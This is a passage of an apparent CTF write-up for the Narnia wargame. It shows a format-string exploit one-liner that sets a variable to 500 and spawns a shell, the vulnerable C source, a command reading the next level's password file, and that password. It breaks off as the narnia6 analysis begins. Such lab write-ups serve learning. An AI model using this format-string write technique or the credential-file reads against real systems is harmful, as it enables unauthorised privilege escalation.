 In the method above, the %1 specifies that the input is in position 1 within the stack. This method, however, is unstable in comparison to the second method. The payload used does not work when using single quotes around the input, rather only double quotes work.

##### Method 2

This method copies the address for the i variable twice before padding it with the necessary amount of bytes. Inputting the address twice was found to be necessary (after a lot of trial and error).

{% highlight bash %}
narnia5@narnia:/narnia$ /narnia/narnia5 $(python -c 'print "xd0xd5xffxffxd0xd5xffxff%492x%n"')                                                                        
Change i's value from 1 -> 500. GOOD  
$ cat /etc/narnia_pass/narnia6

neezocaeng
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  
  
int main(int argc, char **argv){       int i = 1;       char buffer[64];       snprintf(buffer, sizeof buffer, argv[1]);  
       buffer[sizeof (buffer) - 1] = 0;       printf("Change i's value from 1 -> 500. ");       if(i==500){               printf("GOODn");  
       setreuid(geteuid(),geteuid());  
               system("/bin/sh");  
       }       printf("No way...let me give you a hint!n");       printf("buffer : [%s] (%d)n", buffer, strlen(buffer));       printf ("i = %d (%p)n", i, &i);       return 0;  
}
{% endhighlight %}

Narnia 6
--------

### Binary Analysis

#### Behavior

Going onto analysing the narnia6 binary, we can see that it expects two arguments:

{% highlight bash %}
narnia6@narnia:/narnia$ ./narnia6  
./narnia6 b1 b2
{% endhighlight %}

When providing two normal inputs as arguments to the program, nothing out of the ordinary seems to happen:

narnia6@narnia:/narnia$ ./narnia6 A B  
A

#### Ghidra

